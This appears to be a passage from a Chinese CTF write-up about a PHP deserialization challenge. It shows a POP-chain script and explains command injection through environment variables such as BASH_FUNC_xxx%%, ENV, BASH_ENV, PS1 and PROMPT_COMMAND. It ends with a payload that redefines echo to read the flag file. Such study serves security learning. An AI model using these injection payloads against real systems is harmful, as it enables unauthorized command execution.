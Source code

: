 ```php
      echo "empty it!";
      return 0;
    }

    if(preg_match('/^.*(worries).*$/',$this->newyear)) {
      echo 'Don\'t be worry';
    } else {
      echo 'Worries doesn\'t exists in the new year  ';
      empty($this->last->worries);
    }
    return false;
  }
}

class ET{
  public function __isset($name)
  {
    foreach ($_GET['get'] as $inject => $rce){
      putenv("{$inject}={$rce}");
    }
    system("echo \"Haven't you get the secret?\"");
  }
}

$pop = new start;
$pop -> welcome = new SE;
$pop -> welcome->year = new CR;
$pop ->welcome ->year->newyear = "123Worries";
$pop -> welcome -> year -> last = new ET;
echo serialize($pop);
```
然后的内容参考[https://www.ctfiot.com/26843.html](https://www.ctfiot.com/26843.html)<br />本题没有给出上传点，所以用LD_PRELOAD加载恶意.so肯定是不行的，需要其他的环境变量注入才行<br />PHP的system函数执行的是sh -c，并没有传入-i参数，所以
```shell
ENV='$(id 1>&2)' dash -i -c 'echo hello'
```
是无法执行的<br />引用一下原文
> 进入if语句后，去除前缀BASH_FUNC_和后缀%%的部分将是一个变量名，而由() {开头的字符串将会被执行。
> 这里其实做的就是一件事：根据环境变量的值初始化一个匿名函数，并赋予其名字。
> 所以，我们传入下面这样一个环境变量，将会在Bash上下文中添加一个myfunc函数：

```shell
env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
```
最后的payload：
```shell
?envs[BASH_FUNC_echo%%]=() { cat /fffffffffllllllllaaaaaaaaaagggggg; }
```
总结：<br />可以导致命令注入的环境变量：

- BASH_ENV：可以在bash -c的时候注入任意命令
- ENV：可以在sh -i -c的时候注入任意命令
- PS1：可以在sh或bash交互式环境下执行任意命令
- PROMPT_COMMAND：可以在bash交互式环境下执行任意命令
- BASH_FUNC_xxx%%：可以在bash -c或sh -c的时候执行任意命令
